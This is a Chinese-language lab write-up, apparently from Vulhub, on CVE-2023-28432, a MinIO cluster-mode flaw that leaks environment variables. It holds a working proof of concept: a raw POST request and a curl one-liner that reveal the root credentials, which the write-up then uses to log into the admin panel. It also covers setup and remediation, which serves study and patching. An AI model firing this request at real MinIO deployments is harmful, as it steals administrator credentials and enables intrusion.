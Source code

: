 # MinIO集群模式信息泄露漏洞 CVE-2023-28432

## 漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

参考链接：

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ

## 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

![image-20230504102151673](images/image-20230504102151673.png)

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![image-20230504102419760](images/image-20230504102419760.png)

也可以直接 curl：

```
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含`MINIO_ROOT_USER (accessKey)`和`MINIO_ROOT_PASSWORD (secretKey)`。使用这个账号密码，即可成功登录管理后台：

```
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```

![image-20230504102729716](images/image-20230504102729716.png)

## 漏洞修复

目前官方已发布安全修复版本，受影响用户可以升级到RELEASE.2023-03-20T20-16-18Z 及以上版本。
https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z

临时修复方案，在 waf/ips 等安全产品上配置策略，拒绝所有 post 到/minio/bootstrap/v1/verify 流量。